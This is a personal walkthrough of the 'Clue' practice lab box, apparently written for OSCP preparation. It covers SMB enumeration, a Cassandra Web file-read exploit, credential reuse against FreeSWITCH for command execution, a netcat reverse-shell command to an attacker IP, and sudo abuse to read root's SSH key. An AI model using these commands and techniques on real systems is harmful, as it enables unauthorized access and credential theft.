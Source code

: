 ```yaml
---
description: Community Rating:Very hard
---
```


# Clue

So i started enumeration and found the following services:

<figure><img src="../../../.gitbook/assets/image (54).png" alt=""><figcaption></figcaption></figure>

i start looking at the SMB server with anonymous access:

<figure><img src="../../../.gitbook/assets/image (55).png" alt=""><figcaption></figcaption></figure>

Si i download everything in the backup folder with the following commands:

```
recurse on
prompt off
mget *
```

It had a large amount of files that seemed to be rabbit holes :/&#x20;

then i saw this web service running on port 3000 that seemed very weird:

<figure><img src="../../../.gitbook/assets/image (56).png" alt=""><figcaption></figcaption></figure>

Not much going on here but i found a file read vulnerability that looked interesting:

{% embed url="https://www.exploit-db.com/exploits/49362" %}

<figure><img src="../../../.gitbook/assets/image (57).png" alt=""><figcaption></figcaption></figure>

In the poc of the exploit we can see a path that seems valuable:

<figure><img src="../../../.gitbook/assets/image (58).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (59).png" alt=""><figcaption><p>cassie:SecondBiteTheApple330</p></figcaption></figure>

mayBut i can't access ssh with those credentials so i continue my enumeration, while looking at the services at the beginning of the lab i saw a FreeSWITCH service running that had an authenticated exploit so i wanted to try and use those creds to exploit it:

<figure><img src="../../../.gitbook/assets/image (60).png" alt=""><figcaption></figcaption></figure>

So i replaced the password with the one i found but didn' t manage to exploit it so i tried enumerating the default files used by freeswitch to see where the creds are stored

<figure><img src="../../../.gitbook/assets/image (61).png" alt=""><figcaption></figcaption></figure>

Nothing in this file so i looked at the exploit to see what i was looking for:

<figure><img src="../../../.gitbook/assets/image (62).png" alt=""><figcaption></figcaption></figure>

I didn't find the full quickly so i asked my litthle GPT friend (very bad since it's not authorized for OSCP but i was hungry and wanted to get my foothold quickly) and i found a file with some credentials:

<figure><img src="../../../.gitbook/assets/image (64).png" alt=""><figcaption><p>StrongClueConEight021</p></figcaption></figure>

and i changed the credentials in the exploit.py file and managed to get command execution :tada:

<figure><img src="../../../.gitbook/assets/image (65).png" alt=""><figcaption></figcaption></figure>

Ok so i had a REALLY hard time getting a shell, tried reading SSH keys, plenty of reverse shell using different stuff, and finally looked at a WU sadly; i would've never guessed it:

```
python exploit.py 192.168.51.240 'nc -nv 192.168.49.51 3000 -e /bin/bash'
```

This was the payload that got me a shell, i tried other things to try out another route and everything failed, my theory is that since cassandra web is running on port 3000, something goes on on the backend preventing any connections to services ≠ to port 3000

So now that i have a foothold i remember that i had the creds of cassie earlier and can therefor switch users:

<figure><img src="../../../.gitbook/assets/image (66).png" alt=""><figcaption></figcaption></figure>

And i quickly discover that i can run a service called cassandra-web as sudo:

<figure><img src="../../../.gitbook/assets/image (67).png" alt=""><figcaption></figcaption></figure>

So now i need to use this, i had a hard time understanding what it does exactly, if could get an elavated shell by doing some sort of reverse shell, bind shell or create some sort of admin user to connect to? so i asked my GPT friend once again even tho i think i understood pretty well just to be sure

so i tried running the service with some creds that i created but it does not work

```
sudo /usr/local/bin/cassandra-web -B 0.0.0.0:3000 -u felix -p felix
...
Cassandra::Errors::AuthenticationError: Provided username felix and/or password are incorrect
...
```

So i try with some legit credentials, maybe if i manage to run this as root, i can read the proof.txt file with the file read vulnerability:

```
sudo /usr/local/bin/cassandra-web -B 0.0.0.0:3000 -u cassie -p SecondBiteTheApple330
```

<figure><img src="../../../.gitbook/assets/image (68).png" alt=""><figcaption></figcaption></figure>

then i open a new shell and get a 2nd reverse shell to be able to access localhost service running as root:

<figure><img src="../../../.gitbook/assets/image (69).png" alt=""><figcaption></figcaption></figure>

Then i try and read the proof file:

<figure><img src="../../../.gitbook/assets/image (70).png" alt=""><figcaption></figcaption></figure>

this is worst than a rick roll to me i am so tired of this box

So after trying to guess 300 files that could be valuable (found /etc/shadow that can be cool) i found an ssh key:

<figure><img src="../../../.gitbook/assets/image (71).png" alt=""><figcaption></figcaption></figure>

then i try connecting to users with this key and root seems to tick:

<figure><img src="../../../.gitbook/assets/image (72).png" alt=""><figcaption></figcaption></figure>

so i change the permissions of the key and managed to connect to root:

<figure><img src="../../../.gitbook/assets/image (73).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (75).png" alt=""><figcaption><p>straight to the next box after eating something</p></figcaption></figure>
